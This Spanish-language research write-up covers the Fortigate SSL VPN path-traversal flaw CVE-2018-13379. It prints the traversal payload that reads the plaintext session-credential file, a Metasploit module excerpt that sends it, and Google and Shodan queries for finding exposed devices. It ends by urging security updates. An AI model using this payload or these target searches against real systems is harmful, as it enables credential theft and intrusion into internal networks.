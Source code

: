 # Fortigate VPN: CVE-2018-13379: Pre-auth arbitrary file reading 

En el año 2019 se notificaron de vulnerabilidades a los productos de la empresa [Fortinet](https://www.fortinet.com/), reportados por los investigadores [niph_](https://twitter.com/niph_) y [ramoliks](https://twitter.com/ramoliks) los cuales fueron los CVE:

* CVE-2018-13379: Pre-auth arbitrary file reading
* CVE-2018-13380: Pre-auth XSS
* CVE-2018-13381: Pre-auth heap overflow
* CVE-2018-13382: The magic backdoor

Algunos investigadores lograron combinar **CVE-2018-13379** + **CVE-2018-13383,** lo que les permitía filtrar el archivo de sesión con las credenciales en texto plano para acceder a la red interna. Para obtener una shell después de autenticarse se utilizaba en combinación con un buffer overflow. Si desean evaluar un poco más sobre esta vulnerabilidad pueden ir [aqui](https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html).

A finales del año pasado nuestro grupo de investigación en **Toadsec**, observamos [APT](https://www.bankinfosecurity.com/chinese-apt-group-began-targeting-ssl-vpn-flaws-in-july-a-13037) y sitios de filtraciones ofertando un listado de posibles objetivos vulnerables al  **CVE-2018-13379** 

![1](img/1.png)

Siguiendo con la investigación encontramos un dork para google que nos permitía entender un poco más sobre la vulnerabilidad arrojando **803 resultados** 

```markdown
inurl:remote/login?lang=
```

<img src="img/2.png" alt="2" style="zoom:50%;" />

Luego encontramos en **exploited-db.com** un script para metasploit del autor [Carlos Vieira](https://www.exploit-db.com/exploits/47287), que pudimos analizar y encontrar el payload de la vulnerabilidad.

```ruby
def run()
		print_good("Checking target...")
		res = send_request_raw({'uri'=>'/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession'})

		if res && res.code == 200
			print_good("Target is Vulnerable!")
			data = res.body
			current_host = datastore['RHOST']
			filename = "msf_sslwebsession_"+current_host+".bin"
			File.delete(filename) if File.exist?(filename)
			file_local_write(filename, data)
			print_good("Parsing binary file.......")
			parse()
		else
			if(res && res.code == 404)
				print_error("Target not Vulnerable")
			else
				print_error("Ow crap, try again...")
			end
		end
	end
```

Dicho payload era el siguiente

```markdown
remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

De las evidencias anteriores nuestro grupo de investigadores lograron obtener una consulta en shodan, que nos permite obtener un listado nada despreciable de aproximadamente 296k objetivos posiblemente afectados con dicha vulnerabilidad.

```markdown
http.html:"remote" "Content-Length: 131"  port:8443,10443
```

![3](img/3.png)

Por último realizamos una prueba de concepto en unos de nuestros vps para verificar el cve, como observamos en la imagen el mismo filtraba las credenciales

<img src="img/5.png" alt="5" style="zoom:50%;" />

**Prueba en el vps que configuramos**

![4](img/4.png)

Recordemos realizar nuestras actualizaciones de seguridad, dado que ya existen [herramientas](https://github.com/anasbousselham/fortiscan) para escanear estas fallas y aún encontramos varios sistemas vulnerables.

###### Referencias

* Tsai, O., & Æ. (s. f.). Attacking SSL VPN - Part 2: Breaking the Fortigate SSL VPN. Orange. Recuperado 19 de enero de 2021, de https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html
* Orange Tsai. (s. f.). Fortigate SSL VPN PreAuth Remote Code Execution. YouTube. Recuperado 19 de enero de 2021, de https://www.youtube.com/watch?v=Aw55HqZW4x0
* Facebook - Meld je aan of registreer je. (s. f.). Facebook. Recuperado 19 de enero de 2021, de https://www.facebook.com/unsupportedbrowser?_rdr
* M., & M. (2019, 9 agosto). Attacking SSL VPN - Part 2: Breaking the Fortigate SSL VPN. DEVCORE 戴夫寇爾. https://devco.re/blog/2019/08/09/attacking-ssl-vpn-part-2-breaking-the-Fortigate-ssl-vpn/
* (s. f.-d). 7Elements/Fortigate. GitHub. Recuperado 19 de enero de 2021, de https://github.com/7Elements/Fortigate
* Chinese APT Group Began Targeting SSL VPN Flaws in July. (s. f.). Chinese APT Group Began Targeting SSL VPN Flaws in July. Recuperado 19 de enero de 2021, de https://www.bankinfosecurity.com/chinese-apt-group-began-targeting-ssl-vpn-flaws-in-july-a-13037